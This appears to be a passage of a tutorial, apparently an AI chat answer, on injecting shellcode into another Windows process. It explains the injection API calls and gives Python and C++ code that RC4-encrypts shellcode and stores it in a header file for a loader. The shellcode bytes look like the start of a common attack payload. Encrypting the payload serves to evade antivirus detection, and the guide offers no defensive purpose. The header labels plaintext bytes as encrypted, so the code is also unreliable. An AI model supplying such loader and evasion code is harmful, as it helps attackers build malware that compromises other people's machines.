### **Explanation of the Code**:

- **FindProcessId**: Finds the process ID of the target process by its name.
- **OpenProcess**: Opens the target process to get a handle with the required permissions.
- **VirtualAllocEx**: Allocates memory in the target process's address space.
- **WriteProcessMemory**: Writes the shellcode into the allocated memory.
- **CreateRemoteThread**: Creates a remote thread in the target process to execute the injected code.
- **WaitForSingleObject**: Waits for the remote thread to finish execution (optional).
- **Cleanup**: Frees the allocated memory and closes handles.

To add RC4-encrypted shellcode to your C++ code, you can follow these steps:

1. **Encrypt the Shellcode**: First, you'll need to encrypt your shellcode using the RC4 algorithm. This encrypted shellcode will then be stored in a header file.

2. **Create the `toinclude.h` Header File**: This file will contain the encryption key, the encrypted shellcode, and the buffer size definition.

3. **Decrypt the Shellcode in Your Code**: When you're ready to execute the shellcode, you'll decrypt it using the same RC4 algorithm before injecting it into the target process.

### **Step 1: RC4 Encryption Example**

You would typically perform the RC4 encryption in a separate script or utility. Here's a basic example of how it could be done in Python:

```python
from Crypto.Cipher import ARC4

key = b'mysecretkey'  # Your RC4 key
shellcode = b'\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30...'  # Your shellcode

cipher = ARC4.new(key)
encrypted_shellcode = cipher.encrypt(shellcode)

# Print the encrypted shellcode in a format suitable for C++
print('unsigned char shellcode[] = {')
print(', '.join(hex(x) for x in encrypted_shellcode))
print('};')
```

### **Step 2: Create `toinclude.h`**

After encrypting the shellcode, you'll store it along with the key in the `toinclude.h` header file. Here's an example of what this file might look like:

```c++
// toinclude.h

#ifndef TOINCLUDE_H
#define TOINCLUDE_H

// RC4 Encryption Key
unsigned char key[] = "mysecretkey";

// Encrypted Shellcode
unsigned char shellcode[] = {
    0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30, ...
};

// Buffer Size
#define BUF_SIZE sizeof(shellcode)

#endif // TOINCLUDE_H
```
